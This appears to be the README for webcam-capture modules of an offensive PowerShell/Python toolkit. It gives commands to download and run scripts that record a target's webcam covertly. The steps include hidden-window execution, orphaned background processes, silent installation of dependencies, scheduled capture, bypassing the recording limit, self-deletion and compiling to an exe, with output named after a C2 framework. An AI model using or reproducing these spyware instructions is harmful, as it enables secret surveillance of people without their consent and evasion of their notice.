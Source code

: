 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon its installed
[bool](python -V)

#Check if opencv its installed
[bool](pip list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to your 'python\site-packages' directory
#Remark: remmenber to add double backslashs to your path ( eg. C:\\path\\path\\path\\path )
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python*" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```

<br /><br />


## Invoke-WebCamAvi.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WebCamAvi](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|


|Parameter name|Description|Default value|Remark|
|---|---|---|---|
|RecTime|Camera record time in seconds|15|accepts values from '10' up to '120' seconds (default)|
|FileName|Video.avi file name|meterpeter.avi|\*\*\*|
|WorkingDir|Cmdlet working directory|$Env:TMP|cmdlet will store files on sellected directory|
|RecLimmit|Record time limmit in seconds|120|Bypass cmdlet default MAX record time limmit|
|StartTime|Start record at selected time|off|Requires the first two digits to be 'HOURS'<br />and the last two digits to be 'MINUTS' eg. 09:07|
|ForceInstall|Silent install dependencies switch.|Switch|Silent install python 3 dependencies if missing|
|AutoDel|AutoDelete cmdlet in the end switch.|Switch|Auto-Delete Invoke-WebCamAvi cmdlet in the end|


<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1" -OutFile "Invoke-webcamAvi.ps1"
```

<br />

**Prerequesites tests:**
```powershell
#Mandatory requirement
[bool](python -V)
```

<br />

**run cmdlet:**
```powershell
#Get module help
Get-Help .\Invoke-webcamAvi.ps1 -full

#Record webcam live stream for 20 seconds time
.\Invoke-webcamAvi.ps1 -RecTime '20'

#Record webcam live and use %TMP% as working directory
.\Invoke-webcamAvi.ps1 -WorkingDir "$Env:TMP"

#Record webcam live and rename avi file name
.\Invoke-webcamAvi.ps1 -FileName "capture.avi"

#Silent install of python3 dependencies if missing.
.\Invoke-WebCamAvi.ps1 -forceinstall

  -- Final Notes --
  
#Invoke -reclimmit 'int' to bypass max_rec_time restrictions
.\Invoke-WebCamAvi.ps1 -rectime '240' -reclimmit '240'

## Start webcam record at selected time frame ..
# Warning: -starttime input format requires 4 digits user inputs.
# The first two digits reffers to HOUR and the last two to MINUTS
.\Invoke-WebCamAvi.ps1 -starttime '09:07'

#Execute cmdlet in a hidden terminal window for 60 seconds ( child detach from parent process - orphan )
PS C:\> Start-Process -WindowStyle hidden powershell -argumentlist "-file Invoke-WebCamAvi.ps1 -rectime '60'"

#Execute cmdlet in a hidden windows, but only starts capture at '09:07' hours ( child detach from parent process - orphan )
PS C:\> Start-Process -WindowStyle hidden powershell -argumentlist "-file Invoke-WebCamAvi.ps1 -starttime '09:07' -rectime '60'"
```

<br />

**Final Notes:**
```powershell
Remark: Python 3 its mandatory requirement to run cmdlet ..
Invoke-webcamAvi cmdlet automates the execution of 'WebCam.py' and python packages dependencies.
Video recording (silent) its stored on cmdlet working directory under the name of: "meterpeter.avi"
```
